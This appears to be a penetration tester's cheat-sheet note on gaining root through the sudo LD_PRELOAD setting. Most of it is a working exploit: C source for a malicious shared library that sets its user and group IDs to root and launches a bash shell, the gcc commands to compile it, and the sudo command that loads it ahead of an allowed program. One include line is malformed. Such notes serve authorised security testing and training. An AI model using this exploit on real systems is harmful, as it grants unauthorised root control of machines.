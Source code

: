 -- -
In essence, this vector will allow the user to preload libraries when running sudo, so while running something we are allowed to sudo with, we can feed it a malicious library file that will grant us a shell. 
### Enum
![[Sudo#^767678|Sudo]]
![[Sudo#^866a8f|Sudo]]
#### Write malicious library
Example below saved as: `shell.c`
This should be loaded before the software we are running, and it will run with root permissions. It will set it's UID and GID ID to 0 (root) and then execute bash, giving you a shell:
```c
#include <stdio.h
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");	
}
```
#### Compile code
```bash
# in this example, the above code was saved as shell.c
gcc -fPIC -shared -o <output file>.so <c code>.c -nostartfiles
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```
#### Exploit
```bash
# again, our library file in this example is written to shell.so
# note you need to run something that is allowed from sudo -l, what software you choose is irrelevant as the library will be loaded first and it should open a shell.
sudo LD_PRELOAD=<absolute path>.so <sudo software>
sudo LD_PRELOAD=/home/user/shell.so apache2
```